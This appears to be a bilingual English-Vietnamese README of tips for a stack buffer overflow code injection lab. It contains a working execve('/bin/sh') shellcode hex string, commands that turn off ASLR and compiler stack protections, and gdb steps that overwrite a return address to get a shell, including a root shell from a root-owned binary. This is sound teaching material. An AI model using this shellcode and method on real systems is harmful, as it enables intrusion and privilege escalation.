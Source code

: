 # Tips for code injection lab:
### Shellcode
1. Write shellcode program in assembly language (sh.asm), compile with nasm (sh.o) then link with ld to generate executable file (sh)<br>
(Viết chương trình shellcode bằng hợp ngữ, biên dịch (nasm) và liên kết (ld) để tạo chương trình thực thi)
2. Run the following script to get the hex string of shellcode:<br>
(Chạy bash script dưới đây ở dòng lệnh để tạo chuỗi hex của shellcode:)<br>
`$> for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
<br>--> hex string generated: `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80`<br>
or run this script to generate shellcode binary file:<br>
(Hoặc chạy bash script dưới đây ở dòng lệnh để sinh binary file mã shellcode nếu inject bằng cách đọc file)<br>
`$> for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> sh.bin; done;` <br>
3. Estimate buffer size *nnn* of vulnerable program with input strings of various length (eg. `./vuln.out $(python -c "print('a'*nnn)"`)<br>
(Ước lượng size *nnn* từ đỉnh stack đến eip khi biên dịch chương trình với option `-fno-stack-protector` khi gcc)<br>
4. Compute the distance between buffer (esp) and return address to determine the padding bytes will be injected along with the sheelcode.<br>
(Tính toán khoảng cách từ buffer đến eip để xác định padding bytes chèn cùng với shellcode)<br>
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomization_va_space=0`)<br>
(Tắt chế độ tạo cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution o stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>
### Conducting the attack
1. Load vuln.out in gdb <br>
(Nạp vuln.out trong gdb)<br>
`$> gdb vuln.out`<br>
2. Set break point after strcpy instruction <br>
(Đặt điểm dừng chương trình sau lệnh strcpy)<br>
3. Run program in gdb with injecting argument <br>
(Khởi chạy chương trình trong gdb, chèn chuỗi hex của shellcode trên dòng lệnh)<br>
`(gdb-peda)r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")`<br>
4. Watch the stack memory from esp (stack top):<br>
(Quan sát bộ nhớ stack từ esp)<br>
`(gdb-peda) x/80xb $esp`
5. Identify the return address while watching out the stack, then replace `\xff\xff\xff\xff` with value of esp<br>
(Xác định vị trí của địa chỉ trả về trong stack, thay thế `\xff\xff\xff\xff` với địa chỉ của esp)<br>
`set *<address of return address> = <address of esp>`<br>
6. Continue execute program, you should now in the new bash shell:<br>
(Thực thi tiếp chương trình, sẽ thấy xuất hiện dấu nhắc shell --> thực thi được shellcode)<br>
`(gdb-peda) continue`<br>
`$_` <-- you are in the new bash. If vuln.out is set with root as the owner, you will be root in the new shell!  <br>
7. Return to gdb<br>
`$>exit`<br>
`(gdb-peda)`




